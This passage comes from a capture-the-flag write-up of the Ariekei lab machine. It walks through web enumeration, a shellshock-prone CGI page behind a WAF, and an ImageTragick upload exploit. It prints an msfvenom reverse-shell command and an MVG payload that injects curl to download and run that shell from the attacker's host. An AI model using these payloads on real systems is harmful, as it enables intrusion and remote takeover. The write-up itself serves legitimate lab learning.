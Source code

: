 For this I just used dirbuster and enumerated each domain seperately.

At [https://beehive.ariekei.htb/cgi-bin/stats](https://beehive.ariekei.htb/cgi-bin/stats) we see a shell script, returning information on the machine.

![](https://image.ibb.co/nqpLHS/image.png)

This is running bash version `4.2.37(1)` which is potentially vulnerable to shellshock.  Since debian tends to backport changes made to bash, the version number is no true indicator.  Unfortunately, any attempt to pass in any odd characters is met by the following response from the server.

![](https://image.ibb.co/bLRvj7/image.png)

Looks like there's a WAF in play, so we might want to find another way in, or spend a long time trying bypass methods.

Another interesting page is found at [https://calvin.ariekei.htb/upload](https://calvin.ariekei.htb/upload).

![](https://image.ibb.co/hGD847/image.png)

Upload any file and nothing appears to happen, we're just redirected to a HTTP port of calvin.ariekei.htb/upload, although the title indicates that this is an image converter.  Potentially it's vulnerable to [Imagetragick](https://imagetragick.com/), one of the more famous exploits of the ImageMagick library that handled a substantial amount of the web's image conversion code.  I used one of the proof-of-concepts hosted [here](https://github.com/ImageTragick/PoCs) and adapted it to return myself a root shell.

For this you'll want to generate an executable to return a shell.  We can easily do this using msfvenom.

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.15.41 LPORT=443 -f elf -o shell.elf
```

We'll then want to create our payload file, which I called `exploit.mvg`.  All this does is inject a call to download our binary, make it executable and then execute it.

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl 10.10.15.41/shell.elf -o /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf; echo "rce1)'
pop graphic-context
```

We upload the file, place the executable on our local web server and set up a netcat listener.  After a few seconds we're returned a shell as...root?

Container 1: convert-live
----------------

This isn't true root however, a quick look around reveals we're sitting in a docker container.  Using `mount` we see a list of mounted files and directories within the docker environment.  An interesting one is this `/common` directory:
```
/dev/mapper/ariekei--vg-root on /common type ext4 (ro,relatime,errors=remount-ro,data=ordered)
```
In the `/common` directory we see some interesting sub-directories.
